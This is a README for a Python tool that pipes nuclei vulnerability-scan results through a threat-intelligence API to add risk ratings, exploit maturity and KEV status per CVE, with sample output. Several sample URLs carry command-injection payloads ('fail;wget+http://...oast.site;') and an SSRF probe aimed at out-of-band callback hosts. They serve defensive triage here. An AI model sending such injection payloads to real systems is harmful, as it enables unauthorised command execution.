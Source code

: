 # nuclei-nvi
### Enriches nuclei CVE results with vulnerability intel from North Vulnerability Intelligence platform

NVI provides current risk score for CVEs based threat intel and exploitation using 30+ open and closed data sources. In addition to risk score, it also provides information such as exploit life cycle and ransomware exploitation. Exploit life cycle is usually POC , Weponized (Already incorporated into tools and automation) and unkown. 

Make sure you get an API Key from https://www.northinfosec.com/ before start using.

Simple usage:
```
export NVI_API_KEY="XXXXXX-API-key-XXXXXX"
nuclei -target http://sample.nuclei-target.com --silent | python3  nuclei-nvi.py

----------------------------------------
Template ID: CVE-2014-3206
Category: http
Nuclei rating: critical
URL: http://sample.nuclei-target.com/backupmgt/localJob.php?session=fail;wget+http://cqqf5fng4vbb67d6ath09hcfohi51hmyx.oast.site;
Intel: NVI risk_rating => High | Public exploit => No_Known_exploit | Ransomware => no | kev => yes 
----------------------------------------
Template ID: CVE-2016-1555
Category: http
Nuclei rating: critical
URL: http://sample.nuclei-target.com/boardDataWW.php
Intel: NVI risk_rating => Critical | Public exploit => poc | Ransomware => no | kev => yes 
----------------------------------------
Template ID: CVE-2017-9506
Category: http
Nuclei rating: medium
URL: http://sample.nuclei-target.com/plugins/servlet/oauth/users/icon-uri?consumerUri=http://cqqf5fng4vbb67d6ath059tkk51qewsbf.oast.site
Intel: NVI risk_rating => Critical | Public exploit => PoC | Ransomware => No | kev => Yes 
----------------------------------------
Template ID: CVE-2017-3506
Category: http
Nuclei rating: high
URL: http://sample.nuclei-target.com/wls-wsat/RegistrationRequesterPortType
Intel: NVI risk_rating => Critical | Public exploit => PoC | Ransomware => No | kev => Yes 
----------------------------------------
Template ID: CVE-2014-3206
Category: http
Nuclei rating: critical
URL: http://sample.nuclei-target.com/backupmgt/pre_connect_check.php?auth_name=fail;wget+http://cqqf5fng4vbb67d6ath05dc5mwird8dcc.oast.site;
Intel: NVI risk_rating => High | Public exploit => No_Known_exploit | Ransomware => no | kev => yes 
----------------------------------------
Template ID: CVE-2018-16167
Category: http
Nuclei rating: critical
URL: http://sample.nuclei-target.com/upload
Intel: NVI risk_rating => Critical | Public exploit => poc | Ransomware => no | kev => yes 
----------------------------------------
Template ID: CVE-2019-10758
Category: http
Nuclei rating: critical
URL: http://sample.nuclei-target.com/checkValid
Intel: NVI risk_rating => Critical | Public exploit => PoC | Ransomware => No | kev => Yes 
----------------------------------------
Template ID: CVE-2019-2616
Category: http
Nuclei rating: high
URL: http://sample.nuclei-target.com/xmlpserver/ReportTemplateService.xls
Intel: NVI risk_rating => Critical | Public exploit => Weaponized | Ransomware => No | kev => Yes
----------------------------------------
```




